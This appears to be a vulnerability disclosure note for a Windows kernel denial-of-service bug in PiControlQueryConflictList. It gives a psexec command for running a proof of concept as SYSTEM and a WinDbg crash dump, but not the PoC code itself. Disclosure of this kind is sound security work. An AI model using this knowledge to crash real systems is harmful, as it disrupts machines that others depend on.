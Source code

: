 # A denial of service bug in ntoskrnl!PiControlQueryConflictList, where a usermode-supplied pointer is not probed. 


To test POC, you have to be "SYSTEM" ===> via e.g. "psexec.exe -s -i poc.exe".


//----------- Crash Dump -------------------------
2: kd> !analyze -v
*******************************************************************************
*                                                                             *
*                        Bugcheck Analysis                                    *
*                                                                             *
*******************************************************************************

SYSTEM_SERVICE_EXCEPTION (3b)
An exception happened while executing a system service routine.
Arguments:
Arg1: 00000000c0000005, Exception code that caused the bugcheck
Arg2: fffff8072b4af490, Address of the instruction which caused the bugcheck
Arg3: ffffcb8d77d4ef30, Address of the context record for the exception that caused the bugcheck
Arg4: 0000000000000000, zero.


CONTEXT:  ffffcb8d77d4ef30 -- (.cxr 0xffffcb8d77d4ef30)
rax=fffff8072b4af430 rbx=ffffba8a99d03030 rcx=0000000000000012
rdx=cecececefefefefe rsi=0000000000000001 rdi=0000000000000012
rip=fffff8072b4af490 rsp=ffffcb8d77d4f930 rbp=ffffcb8d77d4f980
 r8=0000000000000028  r9=0000000000000001 r10=0000000000000001
r11=0000000000000000 r12=ffffba8a99d03050 r13=0000000000000000
r14=0000000000000000 r15=0000000000000000
iopl=0         nv up ei pl zr na po nc
cs=0010  ss=0018  ds=002b  es=002b  fs=0053  gs=002b             efl=00050246
nt!PiControlQueryConflictList+0x60:
fffff807`2b4af490 443912          cmp     dword ptr [rdx],r10d ds:002b:cececece`fefefefe=????????
Resetting default scope


STACK_TEXT:  
ffffcb8d`77d4f930 fffff807`2b2a75de : fffff807`2ac01970 00000000`00000038 00000000`00000001 00000000`00000012 : nt!PiControlQueryConflictList+0x60
ffffcb8d`77d4f9b0 fffff807`2b0077b5 : ffffe105`0e9c5080 0000003a`61eff750 ffffcb8d`77d4fa80 ffffba8a`99d03030 : nt!NtPlugPlayControl+0xbe
ffffcb8d`77d4fa00 00007ff9`081cf354 : 00000000`00000000 00000000`00000000 00000000`00000000 00000000`00000000 : nt!KiSystemServiceCopyEnd+0x25
0000003a`61eff728 00000000`00000000 : 00000000`00000000 00000000`00000000 00000000`00000000 00000000`00000000 : 0x00007ff9`081cf354

